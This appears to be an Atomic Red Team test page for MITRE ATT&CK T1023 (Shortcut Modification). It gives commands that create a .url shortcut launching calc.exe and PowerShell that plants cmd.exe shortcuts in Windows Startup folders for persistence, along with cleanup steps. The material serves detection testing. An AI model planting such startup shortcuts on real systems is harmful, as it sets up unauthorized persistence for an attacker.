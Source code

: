 # T1023 - Shortcut Modification
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1023)
<blockquote>Shortcuts or symbolic links are ways of referencing other files or programs that will be opened or executed when the shortcut is clicked or executed by a system startup process. Adversaries could use shortcuts to execute their tools for persistence. They may create a new shortcut as a means of indirection that may use [Masquerading](https://attack.mitre.org/techniques/T1036) to look like a legitimate program. Adversaries could also edit the target path or entirely replace an existing shortcut so their tools will be executed instead of the intended legitimate program.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Shortcut Modification](#atomic-test-1---shortcut-modification)

- [Atomic Test #2 - Create shortcut to cmd in startup folders](#atomic-test-2---create-shortcut-to-cmd-in-startup-folders)


<br/>

## Atomic Test #1 - Shortcut Modification
This test to simulate shortcut modification and then execute. example shortcut (*.lnk , .url) strings check with powershell;
gci -path "C:\Users" -recurse -include *.url -ea SilentlyContinue | Select-String -Pattern "exe" | FL

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| shortcut_file_path | shortcut modified and execute | path | shortcutname.url|


#### Attack Commands: Run with `command_prompt`! 


```cmd
echo [InternetShortcut] > test.url && echo URL=C:\windows\system32\calc.exe >> #{shortcut_file_path} && #{shortcut_file_path} >nul 2>&1
```






<br/>
<br/>

## Atomic Test #2 - Create shortcut to cmd in startup folders
LNK file to launch CMD placed in startup folder

**Supported Platforms:** Windows



#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$Shell = New-Object -ComObject ("WScript.Shell")
$ShortCut = $Shell.CreateShortcut("$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\T1023.lnk")
$ShortCut.TargetPath="cmd.exe"
$ShortCut.WorkingDirectory = "C:\Windows\System32";
$ShortCut.WindowStyle = 1;
$ShortCut.Description = "T1023.";
$ShortCut.Save()

$Shell = New-Object -ComObject ("WScript.Shell")
$ShortCut = $Shell.CreateShortcut("$env:ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\T1023.lnk")
$ShortCut.TargetPath="cmd.exe"
$ShortCut.WorkingDirectory = "C:\Windows\System32";
$ShortCut.WindowStyle = 1;
$ShortCut.Description = "T1023.";
$ShortCut.Save()
```

#### Cleanup Commands:
```powershell
Remove-Item "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\T1023.lnk" -ErrorAction Ignore
Remove-Item "$env:ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\T1023.lnk" -ErrorAction Ignore
```





<br/>

